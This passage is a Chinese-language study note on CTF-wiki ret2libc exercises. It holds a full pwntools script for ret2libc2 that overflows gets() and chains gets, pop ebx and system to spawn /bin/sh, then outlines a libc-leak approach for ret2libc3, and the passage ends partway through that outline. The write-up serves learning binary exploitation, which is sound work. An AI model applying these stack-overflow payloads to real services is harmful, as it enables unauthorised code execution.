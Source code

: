 这样就可以构造出payload了

```
payload='a'*0x70+gets_addr+pop_ebx+buf2+system_addr+0xdeadbeef+buf2
```

此时system还缺少参数，如果传入此payload的话可以执行代码，但是只能执行一次。在这之后我们还要再次传入`/bin/sh` 。

完整payload：

```python
from pwn import *

p = process('./ret2libc2')

gets_addr = 0x08048460
system_addr = 0x08048490
popebx_addr = 0x0804843d
buf2_addr = 0x0804A080

payload = flat([
    'a' * 0x70, gets_addr, popebx_addr, buf2_addr, system_addr, 0xdeadbeef,
    buf2_addr
])

p.sendline(payload)
p.sendline('/bin/sh')
p.interactive()
```

虽然ctf-wiki上说难度和第一个一样，但是我感觉又学到了很多东西呢。。

#### 例3

```bash
[*] '/mnt/f/github/pwn-study/Linux-pwn/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

这个难度明显更大了。。没有`system`没有`/bin/sh`。当然其漏洞的位置没有变化，始终是`gets()`函数溢出。

该怎么办呢？我们解题的思路始终不变：执行`system("/bin/sh")`，拿到shell。

在这之前，根据system函数的相对位置不变这一原则，我们首先泄露其他函数的地址，根据glibc的版本判断system函数的位置。

根据wp，他的思路是：

>- 泄露 __libc_start_main 地址
>- 获取 libc 版本
>- 获取 system 地址与 /bin/sh 的地址
>- 再次执行源程序
>- 触发栈溢出执行 system(‘/bin/sh’)

其中，泄露 `__libc_start_main` 的原因是它是程序最初被执行的地方。
